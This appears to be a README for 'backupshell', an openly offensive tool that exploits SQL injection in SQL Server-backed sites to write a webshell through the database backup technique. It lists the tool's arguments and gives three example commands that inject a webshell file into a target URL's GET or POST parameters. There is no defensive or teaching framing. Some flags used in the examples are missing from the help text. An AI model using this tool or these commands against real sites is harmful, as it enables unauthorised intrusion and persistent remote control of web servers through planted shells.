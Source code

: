# An implement to get shell from Sql Injection point via backup-shell technic.
```
usage: backupshell [-h|--help] -u|--baseUrl "<value>" -m|--method (GET|POST)
[-p|--proxyUrl "<value>"] -s|--shell "<value>" [-H|--headers
"<value>" [-H|--headers "<value>" ...]] -d|--dbname
"<value>" -b|--backdir "<value>" [-D|--postData "<value>"]

                   Sqlserver backup shell exploit.

Arguments:

-h  --help      Print help information
-u  --baseUrl   The base URL of the target.Use {*} as the payload inject
point.
-m  --method    The method to use.
-p  --proxyUrl  The proxy URL.
-s  --shell     The path to a webshell.
-H  --headers   The headers to send http request.
-d  --dbname    The database name.
-b  --backdir   The backup directory.
-D  --postData  The post data.Use {*} as the payload inject point.
```
Example1, for GET request:
```
$ backupshell -u http://localhost/test.asp?a={*} -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m GET -M log -c 1
```
Example2, for POST request:
```
$ backupshell -u http://localhost/test.asp -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m POST -D "a={*}" -M log -c 1
```
Example3, for set up the payload in url param with POST request:
```
$ backupshell -u http://localhost/test.asp?a={*} -s /tools/payload/webshell.txt -d db1 -b c:\\a.txt -m POST -D "null" -M log -c 1
```
